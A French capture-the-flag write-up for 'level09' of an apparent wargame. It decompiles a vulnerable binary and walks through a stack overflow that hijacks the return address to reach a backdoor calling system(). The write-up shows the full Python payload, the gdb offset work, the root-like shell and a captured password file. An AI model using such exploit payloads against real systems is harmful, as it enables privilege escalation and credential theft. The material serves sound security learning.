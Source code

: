 # **Level 09**

Pour ce `level09` nous decompilons l'executable

```
#include <defs.h>


int secret_backdoor()
{
  char s[128]; // [rsp+0h] [rbp-80h] BYREF

  fgets(s, 128, stdin);
  return system(s);
}

char * set_msg(int a1)
{
  char s[1024]; // [rsp+10h] [rbp-400h] BYREF

  memset(s, 0, sizeof(s));
  puts(">: Msg @Unix-Dude");
  printf(">>: ");
  fgets(s, 1024, stdin);
  return strncpy((char *)a1, s, *(int *)(a1 + 180));
}

int set_username(int a1)
{
  char s[140]; // [rsp+10h] [rbp-90h] BYREF

  memset(s, 0, 128);
  puts(">: Enter your username");
  printf(">>: ");
  fgets(s, 128, stdin);
  for ( int i = 0; i <= 40 && s[i]; ++i )
    *(a1 + i + 140) = s[i];
  return printf(">: Welcome, %s", (const char *)(a1 + 140));
}

int handle_msg()
{
  char v1[140]; // [rsp+0h] [rbp-C0h] BYREF //0x7fffffffe0d0

  set_username((int)v1);
  set_msg((int)v1);
  return puts(">: Msg sent!");
}

int main(int argc, const char **argv, const char **envp)
{
  puts(
    "--------------------------------------------\n"
    "|   ~Welcome to l33t-m$n ~    v1337        |\n"
    "--------------------------------------------");
  handle_msg();
  return 0;
}
```

Pour ce niveau, nous avons `deux` inputs, le premier est ecrit dans les adresse entre `v1 + 140` et `v1 + 180` et le second est 
ecrit dans `v1` avec une taille correspondant au contenue de `v1 + 180` que l'on peux ecrire grace au premier input. Donc nous ecrirons le maximum, `\xff`.

Notre but va donc etre de reecrire sur l'addresse utiliser par le `ret` de `handle_msg` pour jump sur `secret_backdoor`

Pour ce faire nous allons determiner la position de cette adresse. Pour ce faire nous generons une sequenece de 255 chiffre aleatoire

```
➜  trashfile python test.py
971681244935563299095701066299655488814374609664275905902473332469537890711589669689642906128513824137099822502903637615294721734102055690452056575499650179018468417448128247378537802426190752413283624686016607217117582797123290324373876622152693229169370
```
Puis dans gdb nous regardons les regitres

```
(gdb) i r
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x3236333832333134	0x3236333832333134
rsp            0x7fffffffe198	0x7fffffffe198
r8             0x7ffff7ff7004	140737354100740
r9             0xc	12
r10            0x7fffffffda40	140737488345664
r11            0x246	582
r12            0x555555554790	93824992233360
r13            0x7fffffffe280	140737488347776
r14            0x0	0
r15            0x0	0
rip            0x555555554931	0x555555554931 <handle_msg+113>
eflags         0x10246	[ PF ZF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
```

Il y a cette chaine dans `rbp` : 0x3236333832333134 qui correspond a `41328362` soit apres le 192eme caractere. Comme rbp et `rip` sont stocke a cote dans la memoire `rip` devrait etre apres `200` caracteres

```
level09@OverRide:~$ (python -c "print'a'*40+'\xff'"; python -c "print'a'*200+'abc'") > /var/crash/file
(gdb) 
Single stepping until exit from function handle_msg,
which has no line number information.
0x000000000a636261 in ?? ()
```

Maintenant il nous faut trouver l'addresse de `secret_backdoor`

```
(gdb) disas secret_backdoor 
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:	push   %rbp
   0x000055555555488d <+1>:	mov    %rsp,%rbp
   0x0000555555554890 <+4>:	add    $0xffffffffffffff80,%rsp
   0x0000555555554894 <+8>:	mov    0x20171d(%rip),%rax        # 0x555555755fb8
   0x000055555555489b <+15>:	mov    (%rax),%rax
   0x000055555555489e <+18>:	mov    %rax,%rdx
   0x00005555555548a1 <+21>:	lea    -0x80(%rbp),%rax
   0x00005555555548a5 <+25>:	mov    $0x80,%esi
   0x00005555555548aa <+30>:	mov    %rax,%rdi
   0x00005555555548ad <+33>:	callq  0x555555554770 <fgets@plt>
   0x00005555555548b2 <+38>:	lea    -0x80(%rbp),%rax
   0x00005555555548b6 <+42>:	mov    %rax,%rdi
   0x00005555555548b9 <+45>:	callq  0x555555554740 <system@plt>
   0x00005555555548be <+50>:	leaveq 
   0x00005555555548bf <+51>:	retq   
End of assembler dump.
```
Nous pouvons ecrire notre payload

```
level09@OverRide:~$ (python -c "print'a'*40+'\xff'"; python -c "print'a'*200+'\x8c\x48\x55\x55\x55\x55\x00\x00'"; python -c "print'/bin/sh'") > /var/crash/file 
level09@OverRide:~$ cat /var/crash/file - | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
id
uid=1010(level09) gid=1010(level09) euid=1009(end) egid=100(users) groups=1009(end),100(users),1010(level09)
cat /home/users/end/.pass            
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
